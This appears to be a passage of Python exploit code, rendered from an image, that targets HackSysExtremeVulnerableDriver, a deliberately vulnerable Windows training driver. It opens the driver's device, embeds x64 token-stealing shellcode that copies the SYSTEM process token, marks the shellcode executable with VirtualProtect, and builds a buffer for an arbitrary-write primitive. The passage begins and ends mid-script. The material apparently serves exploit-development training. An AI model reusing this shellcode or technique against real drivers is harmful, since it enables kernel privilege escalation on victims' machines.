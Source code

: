 ```python
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    
    shellcode = bytearray(
        "\x90\x90\xff\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
        "\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
        "\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
        "\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
        "\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
        "\x5B\x59\x58\xc3")

    print("[*] Allocating shellcode character array...")
    try:
        usermode_addr = (c_char * len(shellcode)).from_buffer(shellcode)
        ptr = addressof(usermode_addr)
    except Exception as e:
        print("[!] Failed to allocate shellcode char array with error: " + str(e))
    print("[*] Allocated shellcode character array at: {}".format(hex(ptr)[:-1]))

    print("[*] Marking shellcode RWX...")
    result = kernel32.VirtualProtect(
        usermode_addr,
        c_int(len(shellcode)),
        c_int(0x40),
        byref(c_ulong())
    )

    if result == 0:
        print("[!] VirtualProtect failed with error code: {}".format(str(GetLastError())))

    print("[*] Allocating our What buffer...")
    try:
        new_buf_contents = bytearray(struct.pack("<Q", ptr))
        new_buf = (c_char * len(new_buf_contents)).from_buffer(new_buf_contents)
        new_buf_ptr = addressof(new_buf)
    except Exception as e:
        print("[!] Failed to allocate What buffer with error: " + str(e))
    print("[*] Allocated What buffer at: {}".format(hex(new_buf_ptr)[:-1]))

    print("[*] Marking What buffer RWX...")
    result = kernel32.VirtualProtect(
        new_buf,
        c_int(len(new_buf_contents)),
        c_int(0x40),
        byref(c_ulong())
    )

    if result == 0:
        print("[!] VirtualProtect failed with error code {}".format(str(GetLastError())))

```